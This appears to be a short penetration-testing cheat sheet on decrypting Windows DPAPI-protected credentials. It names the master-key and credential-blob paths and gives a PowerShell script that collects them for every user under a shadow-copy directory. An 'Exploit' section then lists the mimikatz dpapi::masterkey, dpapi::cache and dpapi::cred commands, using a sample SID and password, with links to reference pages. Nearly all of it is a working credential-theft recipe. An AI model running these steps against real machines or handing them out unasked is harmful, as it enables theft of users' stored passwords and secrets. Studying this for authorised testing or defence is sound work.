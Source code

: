 # Decrypting DPAPI Credentials

pre-requirement: 
1. Target account masterkeys : `C:\Users\<useranme>\AppData\Roaming\Microsoft\Protect\*`
2. Target account secrets : `C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\*`
3. Target account sid, password / sha1 hash.

## Search Script

```powershell
$searchDir = "C:\VSS\Users"
$users = Get-ChildItem $searchDir
foreach ($user in $users) {
    " ========== $user - Master Key =========" ;
    $folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\" -ErrorAction SilentlyContinue; 
	foreach ($folder in $folders) {
		"$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder"
		Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname}
	}
	
	$folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Local\Microsoft\Protect\" -ErrorAction SilentlyContinue
	foreach ($folder in $folders) {
		"$searchDir\$user\AppData\Local\Microsoft\Protect\$folder"
		Get-ChildItem -force "$searchDir\$user\AppData\Local\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname}
	}
	
    " ========== $user - Secret =========" ;
	Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Credentials" -ErrorAction SilentlyContinue | foreach {$_.Fullname}	
	
}
```

## Exploit

1. Loading masterkey with `dpapi::masterkey` : `dpapi::masterkey /in:87790867-a883-4a2d-a467-019c315e1104 /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:P@ssw0rd`
2. Check if load success : `dpapi::cache`
3. Decrypt secret: `dpapi::cred /in:4A2EEB30EFC7958491B6578D9948EC7F`



## Reference

+ https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey
+ https://otterhacker.github.io/Pentest/Techniques/DPAPI.html

